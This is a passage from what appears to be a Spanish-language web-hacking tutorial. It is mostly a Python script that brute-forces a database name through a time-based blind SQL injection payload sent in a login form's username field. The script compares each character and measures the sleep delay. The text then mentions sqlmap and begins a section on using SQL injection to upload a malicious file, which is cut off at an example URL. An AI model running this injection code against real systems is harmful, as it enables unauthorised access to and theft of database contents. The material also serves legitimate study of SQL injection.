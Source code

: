 ```python
        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        database = ""

        p2 = log.progress("Usuario")

        for position in range(1, 22):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or if(substr(database(),%d,1)='%s', sleep(5), 1)-- -" % (position, character),     #Aqui lo que hacemos es que mediantes sleep's y con la comparacion de si es 1 es True sacar el nombre de la base de datos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

						time_start = time.time()

                        r = requests.post(login_url, data=post_data)

						time_end = time.time()

                        if time_end - time_start > 5:       #Parametro de la comparacion para saber si es True o False con los tiempos de sleep's (Si tarda 5 segundos en responder es True, de lo contrario es False)

                                database += character
                                p2.status(database)
                                break

if __name__ == '__main__':

        makeRequest()
```

Pero para automatizar todo esto mas podremos utilizar la herramienta llamada `sqlmap` y con sus parametros necesarios dependiendo del tipo de ataque que queramos hacer...

### SQL Injection depositar archivos

Para aprovechar una vulnerabilidad de `mysql` en vez de para ver bases de datos, para poder cargar un archivo malicioso, probaremos si se puede haciendo lo siguiente...

> EJEMPLO

Pongamos que tenemos la siguiente `URL`...

```
URL = http://example.com/example.php
```
